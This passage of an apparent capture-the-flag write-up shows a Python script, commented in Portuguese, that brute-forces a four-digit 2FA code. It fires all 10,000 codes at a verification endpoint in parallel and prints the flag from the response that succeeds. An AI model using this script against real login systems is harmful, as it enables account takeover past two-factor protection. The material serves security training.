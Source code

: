 ```python
    return session.post(
        f"{url}//auth/verify-2fa",  # URL do endpoint de verificação de 2FA
        data={"2fa-code": code},  # Envia o código de 2FA para verificação
        # proxies={"http": "http://127.0.0.1:8080"}, # Configuração do proxy (para testes)
    )


if __name__ == "__main__":
    with Session() as session:
        # Aumenta o tamanho do pool de conexões para 100 para enviar solicitações HTTP em paralelo
        adapter = adapters.HTTPAdapter(pool_maxsize=100)
        # Adiciona o adaptador personalizado ao objeto de sessão
        session.mount("http://", adapter)
        # Envia uma solicitação POST para o endpoint de login para solicitar uma senha única (OTP)
        request_otp(session=session)
        # Envia códigos de 2FA de 0000 a 9999 em paralelo para verificar o código correto através
        with ThreadPoolExecutor(max_workers=100) as executor:
            futures = [
                executor.submit(send_otp_code, session, str(code).zfill(4))
                for code in range(0, 9999 + 1)
            ]
            for future in futures:
                # Obtém o objeto de resposta da solicitação HTTP
                response = future.result()
                # Verifica se o código de 2FA foi verificado com sucesso
                if response.status_code == 200:
                    # Analisa o conteúdo da página para obter a flag
                    soup = BeautifulSoup(response.text, "html.parser")
                    flag = [
                        div
                        for div in soup.find_all("div")
                        if div.get("class") == ["content"]
                    ]
                    # Imprime a flag se encontrada e interrompe o loop
                    print(flag[0].text.strip())
                    break
```
{% endcode %}

